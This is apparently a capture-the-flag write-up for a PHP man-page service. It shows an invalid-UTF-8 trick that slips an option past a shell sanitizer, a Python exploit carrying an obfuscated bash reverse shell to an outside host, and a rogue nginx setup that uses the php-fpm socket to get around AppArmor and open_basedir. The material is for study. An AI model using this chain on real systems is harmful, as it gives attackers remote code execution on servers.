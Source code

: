 This challenge is a PHP application that renders a man page for a given command as HTML. The command is taken from the query string and passed as an argument to `/usr/bin/man` via `shell_exec()`:
```php
$arg = $_GET['page'];
[...]
$manpage = shell_exec('/usr/bin/man --troff-device=html --encoding=UTF-8 ' . $arg);
```

This would be a straight-up RCE, if it wasn't for an ad-hoc query sanitizer slapped on top of this:

1. Quotes of all kinds are stripped right away: `$arg = mb_ereg_replace('["\']', '', $arg);`.
2. If there is a non-word characters at the beggining of a token (`if (mb_ereg('(^|\\s+)\W+', $arg) [...] ) {`), they are also stripped: `$arg = mb_ereg_replace('(^|\\s+)\W+', '\\1', $arg);`. This prevents us from passing additional funny `-Options` or `--options` to `/usr/bin/man`.
3. Finally, `$arg = escapeshellcmd($arg)` escapes pretty much everything we could use in a shell command for malicious purposes.

At first glance, this seems surprisingly solid. But, unfortunately for the author of the sanitizer and fortunately for us, the challenge tries to use UTF-8:
```php
mb_regex_encoding('utf-8') or die('Invalid encoding');
mb_internal_encoding('utf-8') or die('Invalid encoding');
setlocale(LC_CTYPE, 'en_US.utf8');
```

In fact, strings in PHP are just old-school byte sequences. All `mb_internal_encoding()/mb_regex_encoding()` do is simply set the `encoding` parameters for `mb_*` functions, which will then handle the bytes accordingly. If the bytes we provide to these functions are not actually valid UTF-8, well, tough luck:
```php
<?php
    mb_regex_encoding('utf-8');
    mb_internal_encoding('utf-8');
    setlocale(LC_CTYPE, 'en_US.utf8');

    $valid_utf8 = "-Evil";
    // 0xCA is 0b11001010
    //   which means a continuation byte in the form of 10xxxxxx
    //   must immediately follow it => this is incorrect UTF-8
    $invalid_utf8 = "\xca" . $valid_utf8;

    // The original valid UTF-8 triggers the sanitizer,
    // so this prints "Uh-oh, busted.".
    if (mb_ereg("(^|\\s+)\W+", $valid_utf8)) {
        echo "Uh-oh, busted.", PHP_EOL;
    } else {
        echo "Go ahead.", PHP_EOL;
    }

    // However, regular expression functions silently fail
    // on invalid UTF-8, which means this prints "Go ahead."
    if (mb_ereg("(^|\\s+)\W+", $invalid_utf8)) {
        echo "Uh-oh, busted.", PHP_EOL;
    } else {
        echo "Go ahead.", PHP_EOL;
    }

    // After that, escapeshellcmd() simply drops the invalid character,
    // which is exactly what we want (i.e., this prints "bool(true)").
    var_dump($valid_utf8 === escapeshellcmd($invalid_utf8));
?>
```

Great, so allows us to smuggle an additional option to `/usr/bin/man`. There are plenty to choose from, but the most obvious one is `-H`. It allows us to specify a web browser to view the man page, which [gets us](get_shell.py) a reverse shell:
```python
REV_SHELL = 'bash -i >& /dev/tcp/`getent hosts cursed.page | cut -d" " -f1`/31337 0>&1'
SAFE_REV_SHELL = f'echo {base64.b64encode(REV_SHELL.encode()).decode()} | base64 -d | bash'.replace(' ', '${IFS}')
CGI_READY_REV_SHELL = b'\xca-H' + SAFE_REV_SHELL.encode() + b'; id'

[...]

requests.get(URL, params={
	'page': CGI_READY_REV_SHELL,
})
```

At this point, if we knew the name of the flag file, we could just `cat` it. Unfortunately, we don't:
  1. We know the flag is stored in `/`, but its basename is 24 random characters, which is unguessable.
  1. We can't get the basename from a directory listing either, since `/** mrixwlk` AppArmor policy, which `/usr/bin/man` is confined to, basically allows us to list files in any directory *except* the root one.

php-fpm, though, is not confined to any AppArmor policy. Even better, our reverse shell is running as `www-data` and we can talk to PHP via a UNIX socket (`/run/php/php7.3-fpm.sock`).

The obvious idea is to trick PHP into revealing the contents of `/`. PHP (php-fpm) speaks [FastCGI](http://www.mit.edu/~yandros/doc/specs/fcgi-spec.html), which seems moderately annoying to implement.
In order to avoid that, we spin up another instance of `nginx` with a custom config pointed at `/tmp/evil`.

```
www-data@2e75d56e6d85:/tmp/evil$ cat nginx.conf
pid /tmp/evil/evil.pid;
events {}

error_log /tmp/evil/err.evil;

http {
    access_log /tmp/evil/acc.evil;
    server {
            listen 127.0.0.1:31337 default_server;
            root /tmp/evil;
            server_name _;
            location ~ \.php$ {
                    include /etc/nginx/fastcgi.conf;
                    fastcgi_param PHP_VALUE open_basedir=/;
                    fastcgi_pass unix:/run/php/php7.3-fpm.sock;
            }
    }
}
```

The `fastcgi_param PHP_VALUE open_basedir=/` bypass is crucial for this to work.
If we omit it, php-fpm refuses to run scripts from `/tmp/evil` because its `open_basedir=` is set to `/var/www/html` in `www.conf`.

When we run `nginx` with this config, it complains that the error log is missing (I didn't find a way to make this warning go away), but runs anyway:
```
www-data@2e75d56e6d85:/tmp/evil$ /usr/sbin/nginx -c /tmp/evil/nginx.conf
nginx: [alert] could not open error log file: open() "/var/log/nginx/error.log" failed (6: No such device or address)
www-data@2e75d56e6d85:/tmp/evil$ cat evil.pid
1045
```

Now all we need is a script that is going to be run by `php-fpm`:
```
www-data@2e75d56e6d85:/tmp/evil$ cat evil.php
<?php foreach (glob("/flag*") as $fn) echo "$fn\n"; ?>
```

And another one to orchestrate everything and finally get the flag:
```
www-data@2e75d56e6d85:/tmp/evil$ cat fetch_evil.php
<?php echo(file_get_contents("http://127.0.0.1:31337/evil.php")); ?>
www-data@2e75d56e6d85:/tmp/evil$ php -f fetch_evil.php
/flag_kLExDVGQxbiIfwStYMFhT4xF.txt
www-data@2e75d56e6d85:/tmp/evil$ cat /flag_kLExDVGQxbiIfwStYMFhT4xF.txt
hxp{maybe_this_will_finally_get_me_that_sweet_VC_money$$$}
```
